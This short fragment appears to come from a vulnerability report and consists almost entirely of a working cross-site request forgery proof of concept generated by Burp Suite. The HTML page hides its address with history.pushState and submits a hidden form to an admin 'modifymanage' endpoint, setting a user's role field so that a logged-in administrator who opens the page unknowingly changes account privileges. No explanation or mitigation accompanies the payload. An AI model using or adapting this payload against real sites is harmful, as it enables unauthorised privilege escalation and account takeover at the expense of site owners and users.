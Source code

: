 Payload
-------

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
      <form action="http://0-sec.org/index.php/admin/index/modifymanage.html?c=73" method="POST">
          <input type="hidden" name="uid" value="73" />
          <input type="hidden" name="juese" value="3" />
          <input type="hidden" name="verification" value="05f176843c20e12c1364e80b9869ac17" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>